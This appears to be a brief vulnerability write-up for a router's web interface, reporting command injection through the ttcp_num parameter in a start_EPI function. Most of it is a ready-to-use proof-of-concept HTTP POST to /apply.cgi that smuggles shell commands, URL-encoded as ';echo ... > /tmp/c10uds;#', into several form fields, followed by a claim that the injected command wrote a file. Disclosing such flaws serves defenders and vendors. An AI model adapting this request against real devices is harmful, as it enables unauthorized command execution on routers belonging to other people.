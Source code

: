 # ttcp_num

in function `start_EPI`, we can inject `ttcp_num` to do anything

# PoC
plz replace the session

```http
POST /apply.cgi;session_id=ee76bb45012c149b26e22fa0037333fa HTTP/1.1
Host: 192.168.1.1
Content-Length: 380
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://192.168.1.1
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.1.1/SingleForward.asp;session_id=ee76bb45012c149b26e22fa0037333fa
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

need_reboot=1&commit=1&need_action=1&nvset_cgi=1&StartEPI=1&wl_ant=%3Becho%20%22hacker_payload%22%20%3E%20%2Ftmp%2Fc10uds%3B%23s&wl_ssid=%3Becho%20%22hacker_payload%22%20%3E%20%2Ftmp%2Fc10uds%3B%23s&wl_rate=%3Becho%20%22hacker_payload%22%20%3E%20%2Ftmp%2Fc10uds%3B%23s&ttcp_num=%3Becho%20%22hacker_payload_ttcp_num%22%20%3E%20%2Ftmp%2Fc10uds%3B%23s%3B&ttcp_ip=%3Becho%20%22hacker_payload_ttcp_ip%22%20%3E%20%2Ftmp%2Fc10uds%3B%23s%3B&ttcp_size=114514
```



# result
I successfully touch a file with the content "hacker_payload_ttcp_ip"
![alt text](imgs/image.png)